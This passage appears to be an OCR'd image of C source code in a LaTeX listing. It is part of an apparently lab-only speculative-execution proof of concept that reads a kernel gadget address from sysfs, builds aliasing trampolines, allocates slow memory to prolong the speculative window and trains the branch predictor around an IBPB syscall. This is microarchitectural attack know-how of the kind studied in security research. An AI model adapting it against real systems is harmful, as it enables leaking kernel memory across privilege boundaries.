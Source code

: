 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
    ////////////////////////////////////////////
    // 2. Patch runtime addresses from sysfs / CLI
    ////////////////////////////////////////////
    // Load kernel gadget virtual address from module sysfs (e.g. /sys/kernel/pbinc/gaddr)
    __pbinc_kernel_gadget_addr = read_hex("/sys/kernel/pbinc/gaddr");

    // Parse GVA of shared probe from command-line
    __pbinc_probe_shared = strtoull(argv[1], NULL, 16);

    ////////////////////////////////////////////
    // 3. Build CALLSITE trampolines that alias the kernel gadget
    ////////////////////////////////////////////
    // This fills __alias_tbl[] with entry points to hand-crafted callsite stubs (trampoline calls)
    // Each one has a return address that collides with the kernel gadget's class
    (void)pbinc_create_trampolines(__pbinc_kernel_gadget_addr);

    ////////////////////////////////////////////
    // 4. Allocate lab-only memory to act as a cold read for delayed branch resolution
    ////////////////////////////////////////////
    // The address will be read from inside the ".do_branch" block in pbinc.asm
    // It must be slow (ideally cold L3 or fault-suppressed) to prolong speculative window
    void *slow = aligned_alloc(4096, 4096); // Aligned for page granularity
    if (!slow) { perror("alloc slow"); exit(1); }
    __slow_predicate_ptr = (uint64_t)slow; // Patch the ASM-visible symbol

    ////////////////////////////////////////////
    // 5. Jump into ASM:
    // [1] Transiently train -> [2] Syscall (IBPB) -> [3] Spin loop
    ////////////////////////////////////////////
    pbinc_entry(); // This does not return
    return 0;
}
\end{lstlisting}
\end{document}
